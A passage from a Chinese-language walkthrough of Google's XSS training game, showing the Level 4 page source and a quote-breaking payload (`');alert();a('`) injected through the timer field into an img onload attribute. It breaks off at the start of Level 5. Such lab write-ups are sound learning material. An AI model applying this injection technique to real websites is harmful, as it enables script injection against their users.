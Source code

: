         ```html
        <!doctype html>
        <html>
          <head>
            <!-- Internal game scripts/styles, mostly boring stuff -->
            <script src="/static/game-frame.js"></script>
            <link rel="stylesheet" href="/static/game-frame-styles.css" />
         
            <script>
              function startTimer(seconds) {
                seconds = parseInt(seconds) || 3;
                setTimeout(function() { 
                  window.confirm("Time is up!");
                  window.history.back();
                }, seconds * 1000);
              }
            </script>
          </head>
          <body id="level4">
            <img src="/static/logos/level4.png" />
            <br>
            <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
            <br>
            <div id="message">Your timer will execute in {{ timer }} seconds.</div>
          </body>
        </html>
        ```
        

注意到其中 `<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />` 的 `onload=`屬性。

且可以看到 index.html 中，timer 是由使用者輸入的，並且透過`seconds = parseInt(seconds) || 3;`可以得知預設是 3 秒，所以只要將 timer 改成有辦法呼叫 `alert()`即可。

透過以下 payload 將其竄改

```html
');alert();a('
```

則上述 img tag 的那串程式會被修改成以下

```html
<img src="/static/loading.gif" onload="startTimer('{{');alert();a('}}');"/>
```

## **[[5/6]  Level 5: Breaking protocol](https://xss-game.appspot.com/level5)**


- **Target code**
    - signup.html
        
        ```html
        <!doctype html>
        <html>
          <head>
            <!-- Internal game scripts/styles, mostly boring stuff -->
            <script src="/static/game-frame.js"></script>
            <link rel="stylesheet" href="/static/game-frame-styles.css" />
          </head>
         